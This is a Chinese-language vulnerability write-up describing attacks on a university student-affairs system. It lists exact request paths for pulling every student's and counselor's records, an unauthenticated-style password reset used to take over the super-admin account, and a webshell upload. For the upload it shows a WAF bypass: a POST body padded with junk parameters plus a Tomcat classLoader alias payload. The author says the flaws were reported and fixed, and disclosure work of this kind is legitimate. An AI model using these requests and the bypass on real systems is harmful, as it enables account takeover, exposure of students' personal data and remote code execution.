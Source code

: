 写在前面
====

下文的所有漏洞都是需要有学校统一门户的账号和密码的情况下才能挖掘出来的，不过我也有挖到个别特殊的学校个例，可以直接未授权访问那些目录页面造成危害。挖掘的案例均已提交至漏洞平台并已经修复。

过程
==

首先登陆统一门户，登录账号密码，找到学工系统页面：  
[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-01108ee0cf9a8c2ca738bd5072de25e229b15d9e.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-01108ee0cf9a8c2ca738bd5072de25e229b15d9e.png)

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-d8d85fd6cc814b38e29037aaf6d4573723139721.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-d8d85fd6cc814b38e29037aaf6d4573723139721.png)

1.越权漏洞：  
访问以下的路径：  
`http://x.x.x.x/xgxt/xsxx_xsgl.do?method=showStudentsAjax&isAll=true`  
然后便可查看所有学生列表：  
[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-ddd85259210848cf8577a7cbd77828ab7be50ea4.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-ddd85259210848cf8577a7cbd77828ab7be50ea4.png)

`http://x.x.x.x/xgxt/general_szdw.do?method=szdwRybb&lx=fdy`  
然后便可查看所有辅导员列表：  
[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-438325d343f8e1a1d45396c9e0399daf306f1b07.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-438325d343f8e1a1d45396c9e0399daf306f1b07.png)

`http://x.x.x.x/xgxt/xsxx_xsgl.do?method=getXsjbxxMore&xh=某学号`  
然后便可以查看该学号的学生的敏感信息：  
[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-7a774c2b46a3b789636d1d13deee5dbf01698077.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-7a774c2b46a3b789636d1d13deee5dbf01698077.png)

最后根据该漏洞可以编写个脚本，来批量获取系统内用户的敏感信息，效果如下：  
[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-39eec6f47c1f8e966c0bb09857bee997a0c1c5d0.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-39eec6f47c1f8e966c0bb09857bee997a0c1c5d0.png)

2.任意密码重置漏洞：  
访问该路径：  
`http://x.x.x.x/xgxt/mmzhgl_mmzh.do?method=xgmm&yhm=想要修改的账号`  
[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-d5d4acd472b536bdb469d752b5e4bd345f1d41d3.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-d5d4acd472b536bdb469d752b5e4bd345f1d41d3.png)

然后可以将系统内置的超级管理员账号的密码重置，我重置为test0123：  
[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-65458b1d0b5aeb794653a15fb17e74fb33009a01.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-65458b1d0b5aeb794653a15fb17e74fb33009a01.png)

然后再退出到`http://x,x,x,x/xgxt/`的学工系统登录页面，重新登录：  
[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-cdf6bebead89900da40349a9895bc8f026eaaa2b.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-cdf6bebead89900da40349a9895bc8f026eaaa2b.png)

登录成功：  
[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-0e56eb3a63bbe7809dae6c8c7d5fe999f6ae8b9e.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-0e56eb3a63bbe7809dae6c8c7d5fe999f6ae8b9e.png)

既然是超级管理员，那么便可查看到许多敏感信息了，这里就不截图和赘述了。

3.文件上传漏洞（需要绕过waf的拦截）：  
访问该路径：  
`http://x.x.x.x/xgxt/commXszz.do?method=uploadFile`  
这里我上传的是jspx木马，查看网站页面源代码来获取文件路径：  
[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-7a4e475fe85181362bc0cd81e885eead0a3c247a.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-7a4e475fe85181362bc0cd81e885eead0a3c247a.png)

访问`http://x.x.x.x/xgxt/mmzhgl_mmzh.do?method=checkYh&type=view`，然后用Burp Suite用POST方式填充垃圾字符数据可绕过waf。方法就是利用脚本生成一个垃圾字符数据，或者自己aaaa什么的堆叠一下，因为有些waf要是字节超出了范围，那么就不会检测到堆叠之后的马，同时也可以利用注释符(可用`<!– … –>`来注释)再注释掉脏数据，那么就只剩下马了，waf就绕过了：

```php
method=checkYh&type=view&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&&class.classLoader.resources.dirContext.aliases=/abcd=/upload/xxxx/
```

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-1742abb7b95ec90601e5a63da62606e435492543.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-1742abb7b95ec90601e5a63da62606e435492543.png)

然后拼合url，获取木马地址：`http://x.x.x.x/xgxt/abcd/xxx.jspx`  
[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-75eca8717e92796537aa0b89f90e0e86529dc877.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-75eca8717e92796537aa0b89f90e0e86529dc877.png)

至此，完成本次渗透过程。